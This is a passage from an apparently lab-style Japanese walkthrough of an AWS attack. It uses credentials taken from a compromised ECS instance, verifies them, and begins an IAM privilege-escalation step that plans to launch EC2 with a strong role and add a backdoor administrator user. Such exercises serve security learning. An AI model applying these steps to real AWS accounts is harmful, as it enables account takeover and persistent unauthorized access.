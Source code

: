 　私の環境ではデフォルトのリージョンが「`ap-northeast-1`」になっていたのでクレデンシャルの設定以外に「`export AWS_DEFAULT_REGION=us-east-1`」の設定も実施しました。

<div class="md-code" style="width:100%">

```
export AWS_ACCESS_KEY_ID=ASIAVJX7XXXXXXXXXXXX
export AWS_SECRET_ACCESS_KEY=2vPPTE1Gmg1NLUhDxxxxxxxxxxxxxxxxxxxxxxxx
export AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjED0aCXVzLWVhc3QtMSJIMEYCIQDXG29pO3wKPpUVH6W30DJAQIhuKsV3WPs9xxxxxxxxxxxx

export AWS_DEFAULT_REGION=us-east-1
```

</div>

　設定したクレデンシャルが有効であるかを確認します。

<div class="md-code" style="width:100%">

```
$ aws sts get-caller-identity
{
    "UserId": "AROAVJV7MGT3ZFHMKJXHB:i-00b41f7908dc8d792",
    "Account": "364300000000",
    "Arn": "arn:aws:sts::364300000000:assumed-role/ecs-instance-role/i-00b41f7908dc8d792"
}
```

</div>

## Step 4. IAM Privilege Escalation

　「Step 4」では「Step 3」で取得したクレデンシャルを活用して、主に以下の３つを実施していきます。

- 強い権限を持ったIAMロールの探索
- そのIAMロールをアタッチしたEC2の起動
- AdministratorAccess ポリシーを持ったバックドアAWSユーザの追加

### 現在のロールの確認

　侵入したECSのインスタンスにアタッチされているロールを確認します。

　そしてロールにアタッチされているポリシーのポリシードキュメント（アクセス許可と拒否の条件がJSON形式で記述されたもの）を取得し、具体的なアクセス権限を確認します。


#### ロールのポリシー一覧を取得する (aws iam list-attached-role-policies)

> コマンド説明：aws iam list-attached-role-policies  
指定されたIAMロールにアタッチされているすべてのマネージドポリシーをリストアップします。  

　ロール名「`ecs-instance-role`」にアタッチされているポリシー一覧を取得します。

<div class="md-code" style="width:100%">

```
$ aws iam list-attached-role-policies --role-name ecs-instance-role
```
